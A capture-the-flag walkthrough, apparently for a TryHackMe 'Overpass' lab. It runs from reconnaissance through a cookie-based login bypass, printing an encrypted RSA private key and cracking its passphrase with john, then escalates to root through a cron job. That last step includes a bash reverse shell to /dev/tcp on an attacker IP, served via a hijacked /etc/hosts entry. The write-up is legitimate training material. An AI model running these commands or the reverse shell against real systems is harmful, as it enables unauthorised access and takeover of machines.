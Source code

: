 # Overpass

## Nmap scan 

```bash
nmap -sCV 10.10.197.109
```

```sql
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-21 19:56 EDT
Nmap scan report for 10.10.197.109
Host is up (0.22s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 37:96:85:98:d1:00:9c:14:63:d9:b0:34:75:b1:f9:57 (RSA)
|   256 53:75:fa:c0:65:da:dd:b1:e8:dd:40:b8:f6:82:39:24 (ECDSA)
|_  256 1c:4a:da:1f:36:54:6d:a6:c6:17:00:27:2e:67:75:9c (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Overpass
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.78 seconds

```


---

```
http://10.10.197.109/
```

![image](https://github.com/user-attachments/assets/b95c3937-51a7-4f15-9c6d-840e60751811)


## gobuster

```
gobuster dir -u http://10.10.197.109/ -w /home/kali/Downloads/wordlists/directory-list-2.3-medium.txt
```


![image](https://github.com/user-attachments/assets/4c4a4d71-b7d0-4a0d-aff3-801fc2334eb1)




```
http://10.10.183.88/admin/
```

![image](https://github.com/user-attachments/assets/57ef18bf-9899-48ef-af59-682301516079)


i try SQLI or bruteforce it not work i looked to ``login.js`` file:


![image](https://github.com/user-attachments/assets/176b846e-003b-42fa-9080-e17d1ac0aea8)

found :

```javascript
async function login() {
    const usernameBox = document.querySelector("#username");
    const passwordBox = document.querySelector("#password");
    const loginStatus = document.querySelector("#loginStatus");
    loginStatus.textContent = ""
    const creds = { username: usernameBox.value, password: passwordBox.value }
    const response = await postData("/api/login", creds)
    const statusOrCookie = await response.text()
    if (statusOrCookie === "Incorrect credentials") {
        loginStatus.textContent = "Incorrect Credentials"
        passwordBox.value=""
    } else {
        Cookies.set("SessionToken",statusOrCookie)
        window.location = "/admin"
    }
}
```

Vuln:

```js
Cookies.set("SessionToken",statusOrCookie)
```

so if i write any thing in ``SessionToken`` it will accept it 

so i will create new cookie : 

![image](https://github.com/user-attachments/assets/4354e8f3-e37c-412f-8e15-fa4002a0d204)


**``SessionToken:anything``**

and refresh page:


![image](https://github.com/user-attachments/assets/ddd60049-fac0-48aa-9d93-6b67954e8dd7)



ooh found ``ssh key`` but it looks it have ``Passphrase `` 


```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,9F85D92F34F42626F13A7493AB48F337

LNu5wQBBz7pKZ3cc4TWlxIUuD/opJi1DVpPa06pwiHHhe8Zjw3/v+xnmtS3O+qiN
JHnLS8oUVR6Smosw4pqLGcP3AwKvrzDWtw2ycO7mNdNszwLp3uto7ENdTIbzvJal
73/eUN9kYF0ua9rZC6mwoI2iG6sdlNL4ZqsYY7rrvDxeCZJkgzQGzkB9wKgw1ljT
WDyy8qncljugOIf8QrHoo30Gv+dAMfipTSR43FGBZ/Hha4jDykUXP0PvuFyTbVdv
BMXmr3xuKkB6I6k/jLjqWcLrhPWS0qRJ718G/u8cqYX3oJmM0Oo3jgoXYXxewGSZ
AL5bLQFhZJNGoZ+N5nHOll1OBl1tmsUIRwYK7wT/9kvUiL3rhkBURhVIbj2qiHxR
3KwmS4Dm4AOtoPTIAmVyaKmCWopf6le1+wzZ/UprNCAgeGTlZKX/joruW7ZJuAUf
ABbRLLwFVPMgahrBp6vRfNECSxztbFmXPoVwvWRQ98Z+p8MiOoReb7Jfusy6GvZk
VfW2gpmkAr8yDQynUukoWexPeDHWiSlg1kRJKrQP7GCupvW/r/Yc1RmNTfzT5eeR
OkUOTMqmd3Lj07yELyavlBHrz5FJvzPM3rimRwEsl8GH111D4L5rAKVcusdFcg8P
9BQukWbzVZHbaQtAGVGy0FKJv1WhA+pjTLqwU+c15WF7ENb3Dm5qdUoSSlPzRjze
eaPG5O4U9Fq0ZaYPkMlyJCzRVp43De4KKkyO5FQ+xSxce3FW0b63+8REgYirOGcZ
4TBApY+uz34JXe8jElhrKV9xw/7zG2LokKMnljG2YFIApr99nZFVZs1XOFCCkcM8
GFheoT4yFwrXhU1fjQjW/cR0kbhOv7RfV5x7L36x3ZuCfBdlWkt/h2M5nowjcbYn
exxOuOdqdazTjrXOyRNyOtYF9WPLhLRHapBAkXzvNSOERB3TJca8ydbKsyasdCGy
AIPX52bioBlDhg8DmPApR1C1zRYwT1LEFKt7KKAaogbw3G5raSzB54MQpX6WL+wk
6p7/wOX6WMo1MlkF95M3C7dxPFEspLHfpBxf2qys9MqBsd0rLkXoYR6gpbGbAW58
dPm51MekHD+WeP8oTYGI4PVCS/WF+U90Gty0UmgyI9qfxMVIu1BcmJhzh8gdtT0i
n0Lz5pKY+rLxdUaAA9KVwFsdiXnXjHEE1UwnDqqrvgBuvX6Nux+hfgXi9Bsy68qT
8HiUKTEsukcv/IYHK1s+Uw/H5AWtJsFmWQs3bw+Y4iw+YLZomXA4E7yxPXyfWm4K
4FMg3ng0e4/7HRYJSaXLQOKeNwcf/LW5dipO7DmBjVLsC8eyJ8ujeutP/GcA5l6z
ylqilOgj4+yiS813kNTjCJOwKRsXg2jKbnRa8b7dSRz7aDZVLpJnEy9bhn6a7WtS
49TxToi53ZB14+ougkL4svJyYYIRuQjrUmierXAdmbYF9wimhmLfelrMcofOHRW2
+hL1kHlTtJZU8Zj2Y2Y3hd6yRNJcIgCDrmLbn9C5M0d7g0h2BlFaJIZOYDS6J6Yk
2cWk/Mln7+OhAApAvDBKVM7/LGR9/sVPceEos6HTfBXbmsiV+eoFzUtujtymv8U7
-----END RSA PRIVATE KEY-----
```


```bash
nano id_rsa
chmod 600 id_rsa
```

to get ``Passphrase `` :

```
ssh2john id_rsa > rsa_hash.txt
```

```
john rsa_hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

```
john rsa_hash.txt --show
```

![image](https://github.com/user-attachments/assets/5fb62244-188c-45c9-915c-c0cc8652f930)


```
james13
```


## login with ssh


```
ssh -i id_rsa james@10.10.183.88
```



![image](https://github.com/user-attachments/assets/922f5baa-91a0-4406-9737-93a18e4c5294)


user.txt

```
thm{65c1aaf000506e56996822c6281e6bf7}
```

## privilage esc


if we check ``/etc/crontab``

```
cat /etc/crontab
```

![image](https://github.com/user-attachments/assets/01fc02c1-39e0-487d-a1d0-f1d47da72392)


![image](https://github.com/user-attachments/assets/d4e17e52-48cd-4518-bf14-57babc2d3993)


```bash
cat /etc/hosts
ls -l /etc/hosts
```


![image](https://github.com/user-attachments/assets/1fee3b5e-055d-4144-ad5f-af3e81c518da)



now change the ``ip`` for ``overpass.thm`` to your ip :

![image](https://github.com/user-attachments/assets/2b7bb82f-400f-4a0c-aa65-206e33df80dd)


```bash
mkdir -p downloads/src/  
```

```bash
nano buildscript.sh
```

```
bash -c "bash -i >& /dev/tcp/10.8.47.102/4444 0>&1"
```


```
nc -lvpn 4444
```


```
python3 -m http.server 80
```

![image](https://github.com/user-attachments/assets/94c5a907-0516-406f-86c6-f2ca3a50b283)


---

![image](https://github.com/user-attachments/assets/d527d3b0-5dfc-48a6-aac1-938e7f8b74c5)




